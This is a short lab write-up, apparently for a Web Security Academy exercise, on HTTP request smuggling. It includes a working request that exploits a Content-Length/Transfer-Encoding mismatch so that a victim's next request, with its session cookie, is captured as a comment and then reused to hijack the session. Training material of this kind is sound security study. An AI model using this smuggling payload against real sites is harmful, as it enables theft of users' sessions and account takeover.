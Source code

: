 On this lab we exploiting the that we can get some info on the comment. The idea is put more space and the comment last, in order that the victim post some headers and information, as for example his session cookie. The hardest part it is know how many space we need, the best way is maybe count how many characters is send when we send a normal post request, counting all the headers.

![[Pasted image 20250910222422.png]]

Here is aprox 950 to get the right information or necessary.

```
POST / HTTP/1.1
Host: 0aa6009204f84712b75ba7b2004300c8.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 277
Transfer-Encoding: chunked

0

POST /post/comment HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Cookie: session=0or0AglxVr1YCecgFTXJnehwibkOlPnU
Content-Length: 950

csrf=PcI6k0WAz5lgCpy5IFPHqOyCAv53W3kO&postId=5&name=Carlos+Montoya&email=carlos%40normal-user.net&website=&comment=test

```

Finally we are able to see the post, and to finish this lab we need to change our cookies for the victim's one

![[Pasted image 20250910221832.png]]